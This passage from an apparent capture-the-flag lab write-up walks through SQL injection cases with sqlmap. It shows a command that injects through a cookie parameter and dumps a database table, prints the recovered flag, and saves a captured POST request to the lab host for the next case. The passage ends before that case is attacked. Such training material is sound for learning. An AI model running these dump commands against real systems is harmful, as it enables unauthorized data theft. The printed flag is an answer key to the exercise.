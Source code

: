 We can see the id parameter is being sent through the cookie, so, we must send the sqlmap command in the following way:

```
python3 sqlmap.py -r reqcase3.txt --batch --dump --threads 10 -p cookie
```

We'll get the following output:

```
Database: testdb
Table: flag3
[1 entry]
+----+------------------------------------------+
| id | content                                  |
+----+------------------------------------------+
| 1  | HTB{c00k13_m0n573r_15_7h1nk1n6_0f_6r475} |
+----+------------------------------------------+
```

Got the flag: `HTB{c00k13_m0n573r_15_7h1nk1n6_0f_6r475}`

## Case 4
---

Let's finish the task with case 4:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250204152421.png)

Let's save the request:

```
POST /case4.php HTTP/1.1

Host: 94.237.61.252:35591

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/json

Content-Length: 8

Origin: http://94.237.61.252:35591

Connection: keep-alive

Referer: http://94.237.61.252:35591/case4.php



{"id":1}
```
